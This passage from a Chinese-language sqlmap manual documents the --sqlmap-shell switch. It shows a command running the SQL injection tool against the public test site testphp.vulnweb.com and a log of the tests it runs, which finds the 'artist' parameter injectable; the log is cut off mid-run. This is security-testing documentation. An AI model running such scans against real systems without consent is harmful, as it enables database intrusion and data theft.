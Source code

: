 开关：`--sqlmap-shell`

使用开关 `--sqlmap-shell`，用户可以看到交互式的 sqlmap shell，它具有所有以前运行的历史记录，包括使用过的选项和/或开关：

```shell
$ python sqlmap.py --sqlmap-shell
sqlmap-shell> -u "http://testphp.vulnweb.com/artists.php?artist=1" --technique=\
BEU --batch
         _
 ___ ___| |_____ ___ ___  {1.0-dev-2188502}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual
 consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not respon
sible for any misuse or damage caused by this program

[*] starting at xx:xx:11

[xx:xx:11] [INFO] testing connection to the target URL
[xx:xx:12] [INFO] testing if the target URL is stable
[xx:xx:13] [INFO] target URL is stable
[xx:xx:13] [INFO] testing if GET parameter 'artist' is dynamic
[xx:xx:13] [INFO] confirming that GET parameter 'artist' is dynamic
[xx:xx:13] [INFO] GET parameter 'artist' is dynamic
[xx:xx:13] [INFO] heuristic (basic) test shows that GET parameter 'artist' might
 be injectable (possible DBMS: 'MySQL')
[xx:xx:13] [INFO] testing for SQL injection on GET parameter 'artist'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads sp
ecific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[xx:xx:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[xx:xx:13] [INFO] GET parameter 'artist' seems to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[xx:xx:13] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER B
Y or GROUP BY clause'
[xx:xx:13] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY
 or GROUP BY clause'
[xx:xx:13] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER B
Y or GROUP BY clause (EXTRACTVALUE)'
[xx:xx:13] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY
 or GROUP BY clause (EXTRACTVALUE)'
[xx:xx:14] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER B
Y or GROUP BY clause (UPDATEXML)'
[xx:xx:14] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY
 or GROUP BY clause (UPDATEXML)'
[xx:xx:14] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER B
Y or GROUP BY clause (EXP)'
[xx:xx:14] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE, HAVING clause (E
XP)'
[xx:xx:14] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER B
Y or GROUP BY clause (BIGINT UNSIGNED)'
[xx:xx:14] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE, HAVING clause (B
IGINT UNSIGNED)'
[xx:xx:14] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER B
Y or GROUP BY clause'
[xx:xx:14] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE, HAVING clause'
[xx:xx:14] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause'
[xx:xx:14] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACT
VALUE)'
[xx:xx:14] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
[xx:xx:14] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACT
```
